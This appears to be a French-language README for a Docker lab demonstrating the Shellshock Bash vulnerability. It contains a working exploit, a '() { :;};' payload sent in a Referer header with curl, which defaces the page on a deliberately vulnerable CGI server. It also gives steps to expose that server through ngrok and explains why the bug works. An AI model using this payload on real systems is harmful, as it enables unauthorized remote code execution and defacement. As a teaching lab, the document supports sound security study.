

# Laboratoire d'Exploitation Shellshock (CVE-2014-6271)

Ce projet est un environnement de démonstration pour la vulnérabilité **Shellshock**, une faille critique découverte en 2014 affectant le shell Bash. Ce guide explique comment configurer le laboratoire, le fonctionnement interne de l'attaque et la raison technique de sa réussite.

---

## 1. Architecture du Laboratoire

Le laboratoire simule un serveur web d'entreprise vulnérable :
- **Docker** : Isosle un serveur Apache tournant sur une version de Bash non patchée (Ubuntu 14.04).
- **CGI (Common Gateway Interface)** : Le vecteur d'attaque. C'est la technologie qui permet à un serveur web d'exécuter des scripts (ici Bash) pour générer du contenu dynamique.
- **ngrok** : Un outil de tunneling qui permet d'exposer votre serveur local sur Internet de manière temporaire. Indispensable pour simuler une attaque réelle à distance.
- **index.html** : Une page d'accueil d'un tableau de bord "CorpSec" réaliste.
- **attack.ps1** : Script PowerShell automatisant l'envoi du payload malveillant.

---

## 2. Pourquoi utiliser ngrok ? (Simulation et Sécurité)

Dans un scénario réel, vous n'attaquez pas `localhost`. L'utilisation de **ngrok** permet de simuler un site accessible publiquement avec une URL en `https://...`.

### Pourquoi pas un "vrai" hébergement ?
Il est **extrêmement dangereux** d'héberger ce laboratoire sur un serveur classique (VPS, hébergement mutualisé) pour plusieurs raisons :
1. **Vulnérabilité critique** : Ce serveur est délibérément troué. N'importe quel bot passant sur Internet pourrait en prendre le contrôle total en quelques secondes.
2. **Tunnel éphémère** : ngrok crée un tunnel temporaire. Dès que vous coupez la commande, le site disparaît d'Internet, limitant ainsi la fenêtre d'exposition.
3. **Isolation** : En tournant sur votre machine locale via Docker et ngrok, vous gardez un contrôle total sur l'environnement.

---

## 3. Configuration du Serveur

### Étape 1 : Construction de l'image
Utilisez le `Dockerfile` pour créer l'image locale :
```powershell
docker build -t shellshock-lab .
```

### Étape 2 : Lancement du serveur
```powershell
docker run -d -p 80:80 --name shellshock-final `
-v "C:\Users\Wissam\Desktop\shellshock-lab\www:/usr/local/apache2/htdocs/" `
shellshock-lab
```

---

## 3. Analyse de l'Attaque (`attack.ps1`)

Le script d'attaque cible le script CGI vulnérable situé sur le serveur.

```powershell
# Le payload exploite la faille de parsing de Bash
$payload = "() { :;}; echo; /bin/echo '<html>[DEFACED]</html>' > /var/www/html/index.html"

# Envoi de la requête avec le payload dans le Referer
curl.exe -H "Referer: $payload" http://localhost/cgi-bin/poc.cgi
```

### Anatomie du Payload :
1. **`() { :;};`** : Déclare une fonction vide. C'est le "déclencheur" qui trompe Bash.
2. **`echo;`** : Nécessaire dans certains contextes CGI pour séparer les headers du corps.
3. **`/bin/echo ... > ...`** : La commande arbitraire exécutée avec les privilèges de l'utilisateur Apache (`www-data`). Dans cet exemple, nous modifions la page d'accueil du site.

---

## 4. Pourquoi ça fonctionne ? (Explication Technique)

La vulnérabilité Shellshock repose sur un défaut majeur dans la manière dont Bash importe les **fonctions** via des variables d'environnement.

### Le flux d'exploitation :

1. **Vecteur CGI** : Lorsqu'un serveur web reçoit une requête HTTP pour un script CGI, il définit des variables d'environnement pour chaque en-tête HTTP. 
   - L'en-tête `Referer` devient la variable `HTTP_REFERER`.
   - L'en-tête `User-Agent` devient la variable `HTTP_USER_AGENT`.

2. **Parsing fautif** : Bash permet de définir des fonctions dans ces variables. Une fonction ressemble à `() { ... };`. 
   
3. **L'Erreur** : Au lieu de simplement charger la fonction et de s'arrêter, la version vulnérable de Bash **continue de lire et d'exécuter** tout ce qui se trouve après la fermeture de la fonction (`};`).

4. **Exécution de code (RCE)** : En injectant `() { :;}; [MA_COMMANDE]`, l'attaquant force Bash à exécuter `[MA_COMMANDE]` dès que le shell est initialisé par le serveur web pour traiter la requête.

### Schéma de l'attaque :



---

## 5. Comment observer le résultat ?

1. Accédez à `http://localhost` : Vous verrez le tableau de bord **CorpSec**.
2. Exécutez le script `attack.ps1`.
3. Rafraîchissez la page `http://localhost` : Le site est maintenant défaçé avec le message de l'attaquant.

---

## 6. Utilisation avec ngrok

Pour simuler une attaque sur le "vrai" Web :

1.  **Lancez le tunnel** :
    ```powershell
    ngrok http 8080
    ```
2.  **Récupérez l'URL** : Copiez l'URL publique fournie par ngrok (ex: `https://a1b2-c3d4.ngrok-free.app`).
3.  **Configurez l'attaque** : Dans `attack.ps1`, remplacez l'URL cible :
    ```powershell
    curl.exe -H "Referer: $payload" https://votre-id.ngrok-free.app/cgi-bin/poc.cgi
    ```
4.  **Lancez l'attaque** : Exécutez le script et observez votre site se faire défaçer via son URL publique !

---

> [!CAUTION]
> **Avertissement de sécurité** : Ce projet est purement éducatif. Ne testez jamais ces techniques sur des infrastructures sans autorisation.